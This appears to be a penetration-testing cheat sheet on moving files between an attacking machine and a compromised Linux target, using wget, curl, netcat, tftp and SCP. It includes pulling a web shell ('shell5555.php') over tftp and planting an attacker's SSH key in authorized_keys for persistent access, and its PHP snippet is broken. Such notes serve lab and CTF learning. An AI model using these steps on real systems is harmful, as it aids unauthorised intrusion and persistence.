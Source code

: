 # Transfering Files on Linux

## Set Up a Simple Python Webserver <a id="set-up-a-simple-python-webserver"></a>

For the examples using `curl` and `wget` we need to download from a web-server. This is an easy way to set up a web-server. This command will make the entire folder, from where you issue the command, available on port 9999.

```text
python -m SimpleHTTPServer 9999
```

## Wget <a id="wget"></a>

You can download files using `wget` like this:

```text
wget 192.168.1.102:9999/file.txt
```

## Curl <a id="curl"></a>

```text
curl -O http://192.168.0.101/file.txt
```

## Netcat <a id="netcat"></a>

Another easy way to transfer files is by using netcat.

If you can't have an interactive shell it might be risky to start listening on a port, since it could be that the attacking-machine is unable to connect. So you are left hanging and can't do `ctr-c` because that will kill your session.

So instead you can connect from the target machine like this.

On attacking machine:

```text
nc -lvp 4444 < file
```

On target machine:

```text
nc 192.168.1.102 4444 > file
```

You can of course also do it the risky way, the other way around:

So on the victim-machine we run `nc` like this:

```text
nc -lvp 3333 > enum.sh
```

And on the attacking machine we send the file like this:

```text
nc 192.168.1.103 < enum.sh
```

I have sometimes received this error:

```text
This is nc from the netcat-openbsd package. An alternative nc is available
```

I have just run this command instead:

```text
nc -l 1234 > file.sh
```

## With php <a id="with-php"></a>

```text
echo "" > down2.php
```

## Ftp <a id="ftp"></a>

If you have access to a ftp-client to can of course just use that. Remember, if you are uploading binaries you must use binary mode, otherwise the binary will become corrupted!!!

## Tftp <a id="tftp"></a>

On some rare machine we do not have access to `nc` and `wget`, or `curl`. But we might have access to `tftp`. Some versions of `tftp` are run interactively, like this:

```text
$ tftp 192.168.0.101
tftp> get myfile.txt
```

If we can't run it interactively, for whatever reason, we can do this trick:

```text
tftp 191.168.0.101 <<< "get shell5555.php shell5555.php"
```

### SSH - SCP <a id="ssh---scp"></a>

If you manage to upload a reverse-shell and get access to the machine you might be able to enter using ssh. Which might give you a better shell and more stability, and all the other features of SSH. Like transferring files.

So, in the `/home/user` directory you can find the hidden `.ssh` files by typing `ls -la`. Then you need to do two things.

1. Create a new keypair

You do that with:

```text
ssh-keygen -t rsa -C "[email protected]"
```

then you enter a name for the key.

Enter file in which to save the key \(/root/.ssh/id\_rsa\): nameOfMyKey Enter passphrase \(empty for no passphrase\): Enter same passphrase again:

This will create two files, one called `nameOfMyKey` and another called `nameOfMyKey_pub`. The one with the `_pub` is of course your public key. And the other key is your private.

1. Add your public key to authorized\_keys.

Now you copy the content of `nameOfMyKey_pub`. On the compromised machine you go to `~/.ssh` and then run add the public key to the file authorized\_keys. Like this

```text
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQqlhJKYtL/r9655iwp5TiUM9Khp2DJtsJVW3t5qU765wR5Ni+ALEZYwqxHPNYS/kZ4Vdv..." > authorized_keys
```

1. Log in.

Now you should be all set to log in using your private key. Like this

```text
ssh -i nameOfMyKey [email protected]
```

### SCP <a id="scp"></a>

Now we can copy files to a machine using `scp`

```text
# Copy a file:
scp /path/to/source/file.ext [email protected]:/path/to/destination/file.ext

# Copy a directory:
scp -r /path/to/source/dir [email protected]:/path/to/destination
```

